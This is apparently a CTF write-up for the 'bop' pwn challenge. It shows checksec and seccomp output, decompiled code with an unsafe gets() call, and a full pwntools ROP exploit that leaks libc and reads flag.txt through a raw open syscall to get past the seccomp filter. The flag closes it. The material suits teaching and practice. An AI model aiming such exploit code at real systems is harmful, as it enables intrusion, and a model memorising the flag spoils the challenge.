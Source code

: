 # bop

## Challenge

We're given a compiled C binary and a Dockerfile.

This is a fairly standard warm-up challenge, with the added obstacle of seccomp filters.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Seccomp

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```

### Decompiled main

```c
void main(void) {
    char buf [32];

    setbuf(stdin,(char *)0x0);
    setbuf(stdout,(char *)0x0);
    setbuf(stderr,(char *)0x0);

    printf("Do you bop? ");
    gets(buf);
    return;
}
```

## Solution

There's an unsafe call to `gets` in `main`.
PIE is off and there is no canary, so we can trivially overflow the stack and write a rop chain.

We can call `printf` on GOT table entries to leak the libc address.
We then return to `main` to prepare a second rop chain.

In our second chain, we return to libc and use the `open`, `read`, and `write` syscalls to read the flag.

The Glibc `read` and `write` wrappers are okay to use, but the `open` wrapper uses `openat` internally, which is blacklisted in the filter.
Therefore, we have to setup this syscall manually using the rop chain.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 30284 bop
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('bop')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 30284)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

bss = exe.get_section_by_name('.bss')
writeable = bss.header['sh_addr'] + bss.header['sh_size']
exe.sym['main'] = exe.address + 0x12f9

libc = ELF('libc-2.31.so')

gdbscript = '''
tbreak *0x{exe.sym[main]:x}
continue
'''.format(**locals())

print(hex(exe.sym['main']))

io = start()

rop = ROP(exe)
rop.call('gets', [writeable])
rop.raw(rop.ret)
rop.call('printf', [writeable, exe.got['gets']])
rop.raw(rop.ret)
rop.call('main')

payload = flat({
    0x28: rop.chain(),
})

io.sendlineafter(b'Do you bop? ', payload)
io.sendline(b'%s')

libc.address = unpack(io.recvuntil(b'Do you bop? ', drop=True).ljust(8, b'\x00')) - libc.sym['gets']
print(hex(libc.address))

rop = ROP(libc)
rop.call('gets', [writeable])
rop(rax = 2, rdi = writeable, rsi = 0)
rop.raw(rop.find_gadget(['syscall', 'ret']).address) # open(writeable, 0)
rop.call('read', [3, writeable, 0x100])
rop.call('write', [1, writeable, 0x100])

print(rop.dump())

payload = flat({
    0x28: rop.chain(),
})

io.sendline(payload)
io.sendline(b'flag.txt')

io.interactive()
```

## Flag

```
dice{ba_da_ba_da_ba_be_bop_bop_bodda_bope_f8a01d8ec4e2}
```
